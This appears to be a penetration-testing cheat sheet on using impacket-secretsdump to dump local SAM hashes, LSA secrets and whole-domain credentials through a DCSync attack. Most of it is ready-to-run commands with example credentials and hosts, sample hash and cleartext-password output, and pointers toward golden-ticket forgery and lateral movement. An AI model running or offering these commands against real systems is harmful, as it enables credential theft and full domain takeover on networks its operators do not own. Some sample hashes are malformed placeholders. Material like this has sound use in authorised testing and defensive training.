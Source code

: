 
### What You Get from secretsdump:

**Local Machine Hashes (SAM):**
```
[*] Dumping local SAM hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

**Domain Hashes (DCSync - if targeting DC):**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash:::)
CORP\Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
CORP\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c4d5e6f7g8h9i0j:::  ← GOLDEN TICKET!
CORP\DA-Admin:1104:aad3b435b51404eeaad3b435b51404ee:abc123def456:::
```

**LSA Secrets (passwords stored by system):**
```
[*] Dumping LSA Secrets
_SC_MyService:MyServicePassword123!   ← Service account password in cleartext!
```

---

### DCSync Attack - Dump Entire Domain

**When:** You have admin on DC OR have DCSync rights

```bash
# Dump ALL domain users (takes longer)
impacket-secretsdump 'CORP/administrator:Password123@DC01.corp.local' -just-dc

# Only dump krbtgt (for golden ticket)
impacket-secretsdump 'CORP/admin:pass@DC01' -just-dc-user krbtgt

# Only dump specific user
impacket-secretsdump 'CORP/admin:pass@DC01' -just-dc-user DA-Admin
```

**What is DCSync?**
- Mimics domain controller replication
- Requests password hashes from DC
- No need to log onto DC directly
- **Requires:** Domain Admin, Enterprise Admin, OR special DCSync rights

**Time: 30 seconds to 2 minutes (depending on domain size)**

---

### secretsdump Quick Wins:

**Scenario 1: Admin on workstation**
```bash
# Dump local creds
impacket-secretsdump 'WORKSTATION01/administrator:pass@10.10.10.20'

# Look for:
# - Other admin account hashes (lateral movement)
# - Cached domain credentials
# - LSA secrets (service passwords)
```
